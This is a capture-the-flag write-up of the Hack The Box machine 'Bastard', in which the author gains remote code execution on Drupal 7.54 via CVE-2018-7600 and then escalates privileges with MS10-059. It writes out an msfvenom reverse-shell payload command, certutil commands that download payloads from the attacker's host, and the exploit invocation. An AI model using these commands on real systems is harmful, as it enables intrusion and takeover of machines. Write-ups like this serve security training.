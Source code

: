 ```yaml
---
title: Bastard Hackthebox Writeup
date: 2020-12-23 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [windows,drupal,rce,drupal 7.54,python exploit,windows exploit suggester]     # TAG names should always be lowercase
image: /assets/img/bastard-hackthebox/bastard-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Access:~$


Column | Details
------------ | -------------
Name | Bastard
IP | 10.10.10.9
Points | 30
Os | Windows
Difficult | Medium
Creator | [ch4p](https://www.hackthebox.eu/home/users/profile/1)
Out on | 18th March 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* As it's a drupal website, looking for version which we got as `Drupal 7.54`.
* Looking for vulnerabilities, we found that RCE is possible on this version: `CVE-2018-7600`.
* By transfering an `exe` payload and we got a reverse connection back i.e `User Shell`.
* Escalating `Privileges` by using **Local windows exploit suggester**, which gave `MS10-059.exe` as one of the recommendations.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/bastard-hackthebox/nmap-scan-1.png)

Basically `3 Ports` are open i.e. `80,135,49154`. Let's access port 80 first.

___
![](/assets/img/bastard-hackthebox/website-homepage-2.png)

It is a `Drupal` webiste, checking `/robots.txt`.

___
![](/assets/img/bastard-hackthebox/robots-txt-4.png)

In this I found `/CHANGELOG.txt` file which showed which version of `Drupal` is installed.

___
![](/assets/img/bastard-hackthebox/got-version-name-6.png)

The version installed is `Drupal 7.54`, Searching for vulnerabilities I found this :

___
![](/assets/img/bastard-hackthebox/drupa-exploit-8.png)

[Link for the exploit](https://github.com/pimps/CVE-2018-7600)

After downloading the exploit on my system, I ran `whoami` as a remote execution command and I got `nt authority\iusr` as the result.

___
![](/assets/img/bastard-hackthebox/whoami-command-worked-10.png)

Now let's upload an exe shell to the machine and get a reverse connection back, before that we need to know the architecture of the machine which is `x64`.

___
![](/assets/img/bastard-hackthebox/systeminfo-x64-architecture-11.png)

Creating a `payload` using `msfvenom`

**Command** : *msfvenom -p windows/x64/shell_reverse_tcp  -a x64 LHOST=10.10.X.X LPORT=4444 -f exe --platform windows > shell.exe*

___
![](/assets/img/bastard-hackthebox/shell-msfvenom-command-12.png)

Transfering `shell.exe` via **certutil** command.

**certutil command** : *certutil -urlcache -split -f http://10.10.X.X:8081/shell.exe c:/windows/temp/shell.exe*

**Hosting Command** : *python3 -m http.server 8081*

**Final Command** : *python exploit.py http://10.10.10.9 -c "certutil -urlcache -split -f http://10.10.X.X:8081/shell.exe c:/windows/temp/shell.exe"*

___
![](/assets/img/bastard-hackthebox/transfered-shell-exe-13.png)

Executing `shell.exe` using the python exploit and listening on the specified port using `nc`. we got `User Shell`.

___
![](/assets/img/bastard-hackthebox/got-shell-14.png)

Let's gather `systeminfo` for Privilege Escalation.

___
![](/assets/img/bastard-hackthebox/getting-system-info-16.png)

Feeding the above information to `windows exploit suggester` which I had downloaded on my machine.

Download link : [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

___
![](/assets/img/bastard-hackthebox/exploit-suggester-17.png)

Using `MS10-059.exe` to escalate privileges.

[Download Link](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

Sending the executable to windows machine using `certutil` command.

**Command** : *certutil -urlcache -split -f http://10.10.X.X:8081/MS10-059.exe c:/windows/temp/priv.exe*

___
![](/assets/img/bastard-hackthebox/certutil-priv-shell-18.png)

Running the `exploit` and we got `Root`.

___
![](/assets/img/bastard-hackthebox/got-root-shell-19.png)
